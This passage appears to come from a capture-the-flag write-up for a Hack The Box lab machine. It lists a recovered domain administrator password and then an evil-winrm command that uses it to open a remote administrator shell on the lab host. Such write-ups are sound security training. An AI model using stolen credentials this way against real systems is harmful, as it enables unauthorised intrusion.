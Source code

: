 ```bash
Username: administrator
Password: d0m@in4dminyeah!
```


# Shell

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/monteverde]
└──╼ $ evil-winrm -i  10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```